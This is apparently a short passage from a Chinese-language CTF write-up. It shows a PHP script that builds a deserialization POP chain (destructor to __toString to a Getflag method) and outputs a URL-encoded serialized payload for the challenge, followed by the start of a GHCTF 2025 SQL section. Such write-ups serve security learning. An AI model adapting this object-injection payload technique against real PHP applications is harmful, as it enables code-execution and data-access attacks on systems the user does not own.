 ### 构造 payload

```php
<?php
class w44m{

    private $admin = 'w44m';
    protected $passwd = '08067';

}

class w22m{
    public $w00m;
}

class w33m{
    public $w00m;
    public $w22m;

}
# w22m.__destruct().w00m->w33m.__toString().w00m->w44m.Getflag()
$a = new w22m();
$b = new w33m();
$c = new w44m();
# 入口
$a->w00m=$b;
# pop 链子
$b->w00m=$c;
$b->w22m='Getflag';
echo urlencode(serialize($a));
?>
```

提交:

![7-1.png](7-1.png)

---

# GHCTF 2025

## [GHCTF 2025]SQL
